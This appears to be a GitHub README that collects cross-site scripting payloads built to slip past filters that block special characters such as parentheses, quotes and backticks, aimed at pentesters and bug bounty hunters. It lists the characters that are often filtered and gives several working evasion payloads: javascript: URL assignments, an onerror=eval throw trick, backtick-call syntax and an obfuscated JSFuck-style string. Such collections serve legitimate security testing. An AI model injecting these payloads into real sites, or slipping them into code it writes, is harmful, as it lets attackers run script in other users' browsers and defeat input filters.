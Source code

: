 # XSS-Payload-without-Anything
XSS Payload without Anything.

## What is XSS Payload without Anything
When I work for a company or bug bounty, the unexpected hurdle is a protection(xss filter) of special char in the JS(Javascript) area. So I am devising a way to easily solve these problems, and one of the processes is this document.



Let's collect a lot of thoughts and solve our problems.

## Concept
It is similar to "Payload all the things" in terms of collecting the payload, but I want to provide a list of payloads with special tag (without char, used char, other..)
I plan to make it easy to search and to show what characters (or what they are made of) are unusable.

### format

without char: `()` `,` `'` 
```
XSS Payload

// usedchar: 
// author: 
// description: 
```

### without char (Frequently filtered characters)
I have selected special characters that are often blocked.
```
( ) 
{ } 
, 
"
'
`
[ ]
\ 
/ 
; 
+ 
. 
=
```

### Usage
on Github.com
1) Ctrl + F > 
2) find your problem char 
3) XSS

on hahwul.com
comming soon

## Awesome payload
coming soon

## Archive
### without char: `()` `,` `"` `backtick` `\` `/` `[]` `{}` `.`
```
location='JaVaScRiPt:prompt'+document.location.hash[1]+'45'+document.location.hash[2]
```

### without char: `()` `{}` `,` `"` `backtick` `[]` `/` `+` `.` 
```
onerror=eval;throw'alert\x2845\x29';
```


### without char: `!backtick`
```
prompt`45`
```
### without char: 
```
location='javaScriPt:alert\x2845\x29'
```

### without char: 
```
([,하,,,,훌]=[]+{},[한,글,페,이,,로,드,ㅋ,,,ㅎ]=[!!하]+!하+하.ㅁ)[훌+=하+ㅎ+ㅋ+한+글+페+훌+한+하+글][훌](로+드+이+글+한+'(45)')()
```

## Submit XSS Payloads
Add issue form or pull Request
XSS Payload:
WithOut: 
Description: 

or ...

Tweet with me(@hahwul)
